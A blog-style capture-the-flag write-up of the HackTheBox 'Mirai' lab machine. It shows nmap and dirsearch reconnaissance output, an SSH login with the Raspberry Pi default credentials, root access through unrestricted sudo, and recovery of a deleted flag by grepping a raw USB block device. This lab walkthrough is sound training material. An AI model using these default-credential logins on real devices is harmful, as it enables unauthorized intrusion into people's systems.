 ```yaml
---
layout: post
title:  "HackTheBox - Mirai"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```

Cool box based off a cool concept that swept the earth.

# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```
# Dirsearch results
```
[04:08:05] 200 -   61B  - /AccessPlatform/auth/clientscripts/cookies.js
[04:08:05] 200 -   61B  - /AccessPlatform/auth/clientscripts/login.js
[04:08:09] 301 -    0B  - /admin  ->  http://10.10.10.48/admin/
[04:08:10] 200 -   61B  - /admin.js
[04:09:11] 200 -   14KB - /admin/?/login
[04:09:11] 200 -   14KB - /admin/
[04:09:11] 200 -   14KB - /admin/index.php
[04:09:42] 200 -   61B  - /Brocfile.js
[04:09:42] 200 -   61B  - /brunch-config.js
[04:09:47] 200 -   61B  - /Citrix/AccessPlatform/auth/clientscripts/cookies.js
[04:09:48] 200 -   61B  - /Citrix/AccessPlatform/auth/clientscripts/login.js
[04:10:11] 200 -   61B  - /Gruntfile.js
[04:10:11] 200 -   61B  - /gulpfile.js
[04:10:33] 200 -   61B  - /mimosa-config.js
[04:11:10] 200 -   61B  - /swfobject.js
[04:11:20] 200 -   61B  - /v1/test/js/console_ajax.js
```

# Getting user
Mirai was a botnet that abused iot devices with default credentials. We can try this too since the webapp leaks what the box might be.
```
ssh pi@10.10.10.48 : raspberry (default)
```
We can get our user flag.

# Getting root
A sudo check shows us the first part to getting root.
```
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Reading root.txt we get the following message.
```
“”root.txt"" = 'I lost my original root.txt! I think I may have a backup on my USB stick...'
```

We can use df to check system devices for external media.
```
We use the df command in unix to check system devices
/dev/sdb            8887      93      8078   2% /media/usbstick
mounted to /dev/sdb

root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
ahhhhhh more steps. Lets just grep out the filesystem for a flag.
```
grep -a -B 35 -A 120 'root' /dev/sdb
```
Finally we get our flag
